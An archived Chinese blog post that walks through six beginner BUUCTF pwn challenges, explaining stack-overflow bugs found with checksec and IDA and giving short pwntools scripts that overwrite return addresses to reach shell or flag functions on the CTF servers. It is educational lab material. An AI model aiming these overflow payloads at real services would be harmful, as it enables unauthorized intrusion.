<!--yml
category: 未分类
date: 2022-04-26 14:53:50
-->

# buuctf pwn刷题（1）_qingmu-z的博客-CSDN博客_buuctf pwn1

> 来源：[https://blog.csdn.net/weixin_42689613/article/details/113432007](https://blog.csdn.net/weixin_42689613/article/details/113432007)

# 1.test_your_nc

先用exeinfo查壳，是64位的程序


用64位ida静态分析一下，找到main函数

F5反汇编，看到system("/bin/sh")
`system()的作用———执行shell命令也就是向dos发送一条指令。`
即执行/bin/sh命令，获得shell权限


用虚拟机连node3.buuoj.cn:27191
`nc node3.buuoj.cn 27191`
查看文件目录
`ls`
查看flag中的内容
`cat flag`


# 2.pwn1

查壳，64位程序

用虚拟机看一下有什么保护


64位ida静态分析，看一看main函数以及有特殊含义的函数
发现main函数中有gets()函数，所以有栈溢出漏洞
`gets()函数可以输入无限长度的字符，所以容易超出系统分配的栈的最大长度。而在调用函数时栈中存有调用函数之后的命令的地址，所以只要将原本应该返回的地址覆盖掉，就能让程序进入fun函数，从而得到权限。`

发现fun函数可以获得shell权限，那么只要让程序执行fun函数即可

进入到gets函数的s中

我们要将阴影部分填充入垃圾数据，在发送fun所在地址到r即可

脚本

```
 from pwn import*

context(os="linux",arch="amd64",log_level="debug")

zdb=remote("node3.buuoj.cn",29798)

payload=b'a'*(0x0f-0x00+8)+p64(0x040118a)

zdb.sendline(payload)
zdb.interactive() 
```

# 3.warmup_csaw_2016

file
checksec

ida64
有gets函数栈溢出漏洞

进入sub_40060D中发现

运行一下程序
程序直接把system地址打印出来了,直接用就可以

脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")

zdb=remote("node3.buuoj.cn",29734)

payload=b'a'*(0x40+8)+p64(0x40060d)

zdb.recvuntil(">")
zdb.sendline(payload)
zdb.interactive() 
```

# 4.pwn1_sctf_2016

file checksec，32位，没有栈溢出保护

ida32
找到得到flag的地方


fgets 输入32位以内的字符串，点进去s，发现32位无法溢出。往下看，有you，I，replace函数猜测是将I替换为you，导致溢出

脚本

```
 from pwn import*
context(os="linux",arch="i386",log_level="debug")

zdb=remote("node3.buuoj.cn",29353)

payload=b'I'*20+b'a'*4+p32(0x8048F0D)

zdb.sendline(payload)
zdb.interactive() 
```

# 5.ciscn_2019_n_1

file checksec

ida64 进入main函数中的func函数，有gets()即栈溢出漏洞，还给了system（cat flag）

所以只需要溢出，然后返回到system（cat flag）处地址即可


脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")
zdb=remote("node3.buuoj.cn",26842)
payload=b'a'*(0x30+8)+p64(0x004006BE)
zdb.recvuntil("Let's guess the number.\n")
zdb.sendline(payload)
zdb.interactive() 
```

# 6.level0

file checksec

ida64
注意vuln()或者vulnerable()函数一般是ida认为有漏洞的函数
vulnerable：易受攻击的



可以栈溢出
callsystem函数可以得到shell

脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")
zdb=remote("node3.buuoj.cn",27190)
payload=b'a'*(0x80-0x00+8)+p64(0x40059A)
zdb.sendlineafter("Hello, World\n",payload)
zdb.interactive() 
```